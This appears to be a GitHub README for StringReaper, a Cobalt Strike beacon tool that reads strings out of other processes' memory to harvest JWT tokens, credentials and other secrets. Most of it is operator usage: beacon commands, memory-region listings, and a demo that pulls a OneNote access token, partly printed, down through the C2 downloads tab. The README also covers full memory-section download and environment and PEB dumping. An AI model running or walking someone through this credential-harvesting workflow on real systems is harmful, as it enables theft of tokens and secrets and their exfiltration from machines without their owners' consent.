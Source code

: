# StringReaper 
_Reaping treasures from strings in remote processes memory_
![](./images/stringreaper.png)

CobaltStrike BOF designed to carve strings out of remote process memory. This tool allows operators to carve ASCII and UTF-16 strings from targeted processes, making it effective for retrieving JWT tokens, credentials, and other sensitive data directly from memory. Over the past 3 years i've had great success in using this tool on engagements. Saves time when oping from a C2 where you don't want to have to wait on a full process dump or deal with download size issues.

Extracted strings are saved as ASCII in an output file. It uses [@anthemtotheego](https://x.com/anthemtotheego)'s code to download the output files to the CS `Downloads Tab`. If the target data isn't strings, the alternative `download` mode enables full memory section extraction.

Supports filtering memory regions by type (`private`, `image`, `mapped`, or `all`) and access permissions (`r`, `rw`, `rwx`, or `all`).

Also has some additional features such as:
- `list` mode
  - List the target memory sections details. Useful to make sure you don't accidently commit to downloading a massive amount of memory over the wire.
  - I use this to check before I use the `strings` or `download` modes.
- `peb` mode
  - Displays some of the remote processes PEB. Shows CLI strings, etc.
- `env` mode
  - Display all the environment strings of the remote process in the CS console stdout.

# Demo
_Below is a demo of getting JWT access tokens from the OneNote process `onenoteim.exe`_
- First find the process id for OneNote:
```
[02/07 16:44:28] beacon> ps
[02/07 16:44:29] [*] Process List
 PID   PPID  Name                                   Arch  Session     User
 ---   ----  ----                                   ----  -------     ----
 11576 740               onenoteim.exe              x64   1           SECURE\user
 ...
```
- Add the BOF to CS using the Script Console and `StringReaper.cna` aggressor script
- Use the BOF to get all the strings from read-write heap memory `private rw`:
```
[02/07 16:45:08] beacon> StringReaper 11576 strings private rw
[02/07 16:45:09] [*] started download of memstrings.bin (54784 bytes)
[02/07 16:45:09] [*] download of memstrings.bin is complete
```
- Go to downloads tab and sync the `memdump.bin` or `memstrings.bin` file
![](./images/csdownloadstab.png)

- Then view it locally with `cat`/`vi`/`more`/`less`/`grep`/etc
```bash
0xBoku@kamehameha:~/Desktop/out$ cat memstrings.bin | grep ey
ope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"><s:Header><Header xmlns="http://schemas.microsoft.com/office/roamingservice"><ClientInfo xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Office.Web.Roaming.SoapObjects"><Client>RS_ImmersiveCache</Client><ClientVersion>16.0.14326.22094</ClientVersion><Protocol>1.0</Protocol></ClientInfo></Header></s:Header><s:Body><a:WriteSettingsRequest xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Office.Web.Roaming.SoapObjects" xmlns:a="http://schemas.microsoft.com/office/roamingservice"><a:Identity>eyJ0eXAiOiJKV1QiLCJub25jZSI6IjNtYlJlU2FETWpBM2ZrY1B6cnBVclRBZzM1ZG1qYnFzbHVIbkZMdzdkTkUiLCJhbGciOiJSUzI1NiIsIng1dCI6IllUY2VPNUlKeXlxUjZqekRTNWlBYnBlNDJKdyIsImtpZCI6IllUY2VPNUlKeXlxUjZqekRTNWlBYnBlNDJKdyJ9.eyJhdWQiOiJo..
```


# Usage

```
beacon> help StringReaper
Usage: StringReaper PID mode option1 option2
   ._memdownload  : download memory sections to CS Downloads tab
   |_memstrings   : parse strings from memory sections and download to CS Downloads tab
   |_memlist      : list all allocated memory sections in remote process
   |__[option1]
   |  |_ all
   |  |_ private
   |  |_ image
   |  |_ mapped
   |__[option2]
      |_ all
      |_ r
      |_ rw
      |_ rwx
     peb            : display PEB information
     
beacon> StringReaper 7744 memlist private rw
StringReaper BOF (Bobby Cooke|@0xBoku|github.com/boku7|linkedin.com/in/bobby-cooke/)
[+] host called home, sent: 15627 bytes
[+] received output:
Opened a handle to 7744 (PID)
0x000000EE007FA000 / 8364032          | 0x6000       / 24576    | Private  | PAGE_READWRITE             / 0x4        
0x000000EE00FFA000 / 16752640         | 0x6000       / 24576    | Private  | PAGE_READWRITE             / 0x4        
0x000000EE017FA000 / 25141248         | 0x6000       / 24576    | Private  | PAGE_READWRITE             / 0x4        
0x000000EE01FF9000 / 33525760         | 0x7000       / 28672    | Private  | PAGE_READWRITE             / 0x4        
0x000000EE027FE000 / 41934848         | 0x2000       / 8192     | Private  | PAGE_READWRITE             / 0x4      
...
Total selected memory size: 0x3465000 / 54939648

beacon> StringReaper 9548 memstrings private rw
[+] host called home, sent: 15630 bytes
[*] started download of memdump.bin (18818 bytes)
[*] download of memdump.bin is complete
[+] received output:
Opened a handle to 9548 (PID)
0x00000059B07E7000 / -1333891072      | 0x3000       / 12288    | Private  | PAGE_READWRITE             / 0x4        
0x00000059B0877000 / -1333301248      | 0x9000       / 36864    | Private  | PAGE_READWRITE             / 0x4        
0x0000020D98D70000 / -1730740224      | 0x2000       / 8192     | Private  | PAGE_READWRITE             / 0x4        
0x0000020D98DD0000 / -1730347008      | 0x2000       / 8192     | Private  | PAGE_READWRITE             / 0x4        
0x0000020D98E00000 / -1730150400      | 0x12000      / 73728    | Private  | PAGE_READWRITE             / 0x4        
0x0000020D98E13000 / -1730072576      | 0x15000      / 86016    | Private  | PAGE_READWRITE             / 0x4        
0x0000020D98E29000 / -1729982464      | 0x17000      / 94208    | Private  | PAGE_READWRITE             / 0x4        
...  
Total selected memory size: 0x6E000 / 450560
```
